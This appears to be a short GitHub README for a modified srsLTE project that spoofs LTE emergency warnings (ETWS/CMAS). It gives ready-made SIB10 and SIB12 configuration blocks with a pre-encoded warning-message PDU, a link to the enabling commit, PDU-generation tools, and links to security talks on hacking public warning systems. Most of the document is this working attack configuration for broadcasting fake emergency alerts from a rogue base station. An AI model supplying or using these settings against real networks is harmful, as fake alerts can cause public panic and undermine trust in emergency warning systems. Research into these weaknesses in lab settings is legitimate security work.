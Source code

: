 # srsLTE_CMAS_ETWS_Hacking



## IMPORTANT CONFIG : https://github.com/learning-lte/srsLTE_cmas_etws/commit/88775bb3bd133344a1b6f2248510a68b0ea9f547  

sib10 =  
{  
    message_identifier = 0x1104;  
    serial_number = 0x3000;  
    warning_type = "0x580";  
}   


sib12 =  
{  
    message_identifier = 0x1112;  
    serial_number = 0x3000;  
    data_coding_scheme = 01;  
    warning_msg_segment_type = "lastSegment";  
    warning_msg_segment_num = 0;  
    warning_msg_segment_r9 = "01C576597E2EBBC7F950A8D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D1000A";   
 };  
 
## GENERATING THIS PDU : 01C576597E2EBBC7F950A8D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D168341A8D46A3D1000A
* Follow this tutorial : https://www.sharetechnote.com/html/Handbook_LTE_CMAS.html
* Tools for generating PDU : http://smstools3.kekekasvi.com/topic.php?id=288


## Documentation
* https://www.youtube.com/watch?v=EP1PnzMUaCg
* https://hackmd.io/@AIS3-official/Critical-Infra-day5#spoofing-wireless-emergency-alerts-attack
* https://www.leg.ba/public-warning-systems-in-mobile-networks/
* https://conference.hitb.org/hitbsecconf2019ams/materials/HAXPO%20D1%20-%20Hacking%20LTE%20Public%20Warning%20Systems%20-%20Weiguang%20Li.pdf

